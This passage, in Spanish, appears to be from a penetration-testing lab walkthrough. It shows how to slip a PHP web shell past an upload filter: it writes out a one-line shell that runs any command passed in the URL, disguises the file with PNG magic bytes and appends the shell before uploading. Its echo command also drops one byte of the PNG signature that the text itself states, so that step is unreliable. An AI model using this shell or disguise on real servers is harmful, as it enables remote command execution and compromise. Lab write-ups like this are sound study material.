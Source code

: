 >Comprobamos que si funciona 

#### Forma Opcional de Inyección de código en upload

##### Creamos archivo php con shell

```php
php

<?php system($_GET['cmd']); ?>

```

![[Pasted image 20250619160258.png]](Networked_images/20250619160258.png)


##### creamos un archivo .php.png que contenga la cadena 89 50 4E 47 0D 0A 1A 0A

89 50 4E 47 0D 0A 1A 0A - esta cadena es la primera de cualquier imagen png y la identifica como tal

```bash
echo '89 50 4E 0D 0A 1A 0A' |xxd -p -r > nombre_archivo.php.png
```

![[Pasted image 20250619161331.png]](Networked_images/20250619161331.png)


##### inyectamos el php de antes en el archivo

```bash
cat shell.php >> colada_shell.php.png
```

![[Pasted image 20250619161807.png]](Networked_images/20250619161807.png)

##### subimos el archivo en /upload.php
